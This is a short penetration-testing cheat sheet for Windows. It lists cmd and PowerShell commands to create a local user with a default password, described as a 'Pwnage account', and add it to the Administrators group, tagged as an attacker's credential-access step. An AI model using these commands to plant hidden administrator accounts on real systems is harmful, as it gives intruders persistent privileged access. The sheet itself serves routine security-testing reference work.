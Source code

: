 # windows
% windows, credential access

#plateform/windows #target/local #cat/CREDENTIAL-ACCESS

## add local user
```
net user /add <name|jubeaz> <password|Jubeaz12345!>
```

## Add new user to localgroup
```
net localgroup administrators  <name|jubeaz> /add
```


# powershell
% windows, credential access

#plateform/windows #target/local #cat/CREDENTIAL-ACCESS #tag/powershell 

## add local user
```
New-LocalUser -FullName '<fname|jubeaz>' -Name <name|jubeaz> -Password <password|Jubeaz12345!> ‑Description 'Pwnage account'  
```

## Add new user to localgroup
```
add-LocalGroupMember -Group  '<gname|Administrators>' -member <name|jubeaz> 
```

## add local group
```
New-LocalGroup -Name '<name>' -Description '<description>'
```
